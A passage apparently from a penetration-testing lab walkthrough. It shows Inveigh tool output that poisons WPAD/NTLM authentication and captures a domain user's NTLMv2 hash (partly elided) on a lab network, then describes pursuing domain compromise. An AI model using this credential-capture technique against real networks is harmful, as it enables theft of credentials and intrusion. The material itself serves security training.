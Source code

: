 ```powershell
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Users\ilfserveradm\Documents
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
[+] [2022-06-22T15:04:05] TCP(445) SYN packet detected from 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) negotiation request detected from 172.16.8.20:55623
[+] [2022-06-22T15:04:05] Domain mapping added for INLANEFREIGHT to INLANEFREIGHT.LOCAL
[+] [2022-06-22T15:04:05] SMB(445) NTLM challenge 5EB0B310E7B8BA04 sent to 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) NTLMv2 captured for ACADEMY-AEN-DEV\mpalledorous from 172.16.8.20(ACADEMY-AEN-DEV):55623:
mpalledorous::ACADEMY-AEN-DEV:5EB0B310E7B8BA04:<SNIP>
```

***

## Closing In

We've now enumerated the domain inside and out, moved laterally, and pillaged what we could find on the target hosts. At this point, we have credentials for the `mssqladm` user and can continue hunting a path to domain compromise.
